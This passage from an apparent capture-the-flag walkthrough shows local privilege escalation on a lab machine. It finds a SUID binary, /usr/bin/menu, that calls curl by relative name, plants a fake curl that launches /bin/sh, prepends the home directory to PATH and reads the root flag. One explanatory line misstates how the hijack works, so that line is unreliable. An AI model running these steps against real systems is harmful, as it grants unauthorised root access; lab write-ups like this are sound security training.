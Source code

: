 /usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
</pre>
**What file looks out of the ordinary?:** /usr/bin/menu
2. run the binary
```
cd /usr/bin
./menu
```
<pre>
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
</pre>
the options give us:
- an http header of the host
- our kernel version (4.8.0-58-generic)
- an ifconfig output
3. "cat" will give us a bunch of gibberish, so we use "strings" to see any human readable text in the binary
`strings menu`
<pre>
'1. status check'
'2. kernel version'
'3. ifconfig'
** Enter your choice :
curl -I localhost
uname -r
ifconfig
Invalid choice
</pre>
4. looks like these lines are the command activated by the choices made in the binary. Notice that curl is just called locally. This means that it will use whatever binary named "curl" that is in the same directory as "menu". we can change this to a command that will give us root!
```
cd ~
echo /bin/sh > curl
chmod 777 curl
export PATH=~:$PATH
/usr/bin/menu
```
select 1 to make the menu go to our shell named "curl".
`id`
<pre> id=0(root) gid=1000(kenobi) groups=1000(kenobi) </pre>
We are root!
5. **What is the root flag (/root/root.txt)?**
```
cd ~
cat /root/root.txt
```
**Root flag**: XXXXXXXREDACTEDXXXXXXX
